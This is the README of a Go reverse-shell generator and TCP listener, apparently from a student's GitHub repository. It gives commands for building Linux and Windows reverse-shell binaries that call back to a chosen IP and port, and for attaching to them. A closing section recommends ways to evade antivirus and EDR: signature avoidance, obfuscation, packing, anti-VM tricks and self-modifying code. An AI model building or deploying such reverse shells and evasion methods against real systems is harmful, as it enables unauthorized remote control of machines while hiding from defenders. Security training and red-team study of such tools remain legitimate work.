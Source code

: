 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any other piece of code. Made by a student for educational purposes only.

## Why
As an infosec student, I had to bypass some EDR and antivirus solutions (see the "Go further" section). So I needed this kind of software which I could not find easily on the web, so I built this.

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 : ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Go further
Some ideas to go further using this tool :
- Avoid signatures (build your own unique code)
- Obfuscate your reverse-shell code
- Pack your reverse-shell executable (ie. https://github.com/EgeBalci/amber)
- Add anti-vm tricks to your reverse-shell code
- Self-modifying reverse-shell code
- ...

## Todo List

* Publish package

**[`^        back to top        ^`](#)**
